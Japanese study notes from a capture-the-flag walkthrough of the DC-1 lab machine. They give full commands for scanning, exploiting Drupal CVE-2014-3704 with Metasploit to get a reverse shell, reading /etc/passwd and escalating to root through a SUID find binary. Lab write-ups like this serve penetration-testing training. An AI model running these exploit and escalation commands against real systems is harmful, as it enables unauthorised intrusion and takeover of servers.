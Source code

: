 ## DC-one 410~

## 目的
- flag1 <- システム内
- flag4 <- システム内
- theFinalFlag <- root

### ポートスキャンまでいつもと同じ
- 20, 80, 111

### 環境変数の設定
- `export IP=192.168.56.?` 

### nmapで脆弱性を探す
- さらにnmapで脆弱性を探す。`--script vuln`オプションをつけると異常に時間がかかるので、特定のポートだけ実施する
- `nmap -p 80,111 --script vuln $IP | tee vuln.log`
- `cat vuln.log`でcve-2014-3704の脆弱性が見つかる 


### Webサイトをチェックする
  - robots.txtを見る。これはクローラーがサイトをクローリングしてもいいかを判断できるサイト。Disallowと書いているのは、クローラの巡回を拒否している
  - サイトの作成ソフトとおおよそのバージョンがわかる
  - drupalは有名なwebサイトの構築ソフト


### droopescan
- droopescanはPythonベースのセキュリティスキャナでDrupal,wordpress,Joomlaで使える。より細かいバージョンがわかって、そこからwebサイトを構築している脆弱性を発見できることがある
- `droopescan scan drupal -u $URL`
- 結構時間かかる
- versin 7.22~7.26ということがわかる
- drupalはPluginを使うことで機能を拡張することができる。pluginには脆弱性がある場合があるので、拡張機能はチェックする


### Metasploitをネットで調べる
- drupalに脆弱性があるかもしれない
- 調べるだけなのでインターネットにつながっているなら何でもいい 
- `Exploit Database`を検索して、`drupal 7 remote`でsearchする(CVE-2014-3704)
- drupalgeddonを使うのでメモっておく
- 多分ここに表示されているmetasploitはどれも使えると思うが、ここでは上で選択したのを使っている

### (補足)searchsploitでexploitを探す
- ネットが繋がってなくても、searchsploitをダウンロードしていれば、これでも探すことができる
- `searchsploit drupal 7 remote`
- `.py`,`.rb`がコマンドで、`.txt`は説明
- シェルの取得を目的でdrupalのバージョンから、このモジュールを探す -> php/webapps/35150.php
- `searchsploit -m パスの番号`
  - `searchsploit -m 35150`
  - ファイルがダウンロードされるので実行する

### metasploitを実行する
  - ParrotOSのシェルで
  - `msfconsole`
  - 起動画面に使えるモジュールや分類が表示されている
  - どこにdrupalgeddonあるか調べる `search type:exploit drupal` Pathを覚えておく
    - `rank`というのはツールの有能性 
  - `use exploit/multi/http/drupal_drupageddon`
    - パスの入力にはTabが使える
    - 左にある番号を使って`use 番号`でもOK
  - `info`
    - モジュールの使い方がわかる 
  - `show options`をして、Requiredと書いてあるところのyesの部分は必ず埋める必要がある。ただし、`targeturi`はここではないので、デフォルトでスラッシュが設定されているので入力する必要がない
  - `set RHOSTS 192.168.56.103` ターゲット側端末
    - 大文字のところは小文字でもいい 
  - `set LHOST 192.168.56.102` 攻撃側端末
  - `show options`で確認する
  - `run`
  - シェルを取得できるが、これはダムシェルと言って機能が劣るシェルである。次のコマンドをやってみる これはOSを調べるコマンドである `uname -a`、使えないので、いつも使っているようなシェルにする。他にも色々コマンド試してみる


### Pythonのptyで対話シェルに切り替え
  - `shell`
  - Pythonを呼び出してシェルを呼び出す
  - `python -c 'import pty; pty.spawn("/bin/bash")'`
  - 対話シェルに切り替わる



### システムの探索
- 波線で消しているのはwww-dataは正規のユーザではないため、調べても意味がないため
- ファイル
  - `cat /etc/passwd`
  - ~`cat .bash_history` のコマンドの履歴で何かわかるかもしれない~
  - ~`cat .ssh`~
  - `/opt`
  - `/tmp` 一時ファイルの置き場所を調べる
- コマンド
  - ~`id` 個人ユーザがroot権限でできることを調べる~
  - `uname -a` メモに貼っておく
  - `find / -writable -type f 2>/dev/null | grep -v /proc/ | grep -v /sys/`
  - ~`sudo -l`をやってみる~
  - SUIDファイルを検索
    - `find / -perm -u=s -type f 2> /dev/null`
    - find以外に多くのコマンドが出てくるが、sudoコマンドは使えないのでsudoコマンドを使わないGTFOBinsを探す。結局、色々あるがfindしか使えない



### SUIDファイルであるfindコマンドでrootシェルの取得
- SUIDファイルはどのユーザが実行しても所有者が実行したことになる設定
- `which find`パスを調べる
- `ls -l /usr/bin/find`
  - 実行のパーミッションがSで所有者はrootなので、このファイルを実行したらrootになれる
- GTFOBinsのWebサイトから `find`を検索
  - GTFOBinsは裏技ではなく、見落としがちで上手いこと使えるコマンド集 
- `/usr/bin/find . -exec /bin/bash -p \; -quit`
  - `find ~`でもok
  - `-exec`は見つけたファイルを実行する。\;はexecコマンドの終了を示している
  - `-p`はrootを実効ユーザにするため 
- root権限の取得
  - `id`コマンドを実行するため、uid(www-data)でeuid(root)になっている。これは実ユーザがwww-dataで実効ユーザがrootであることを示している 
### Flagを探して表示
  - `cat /root/thefinalflag.txt`  


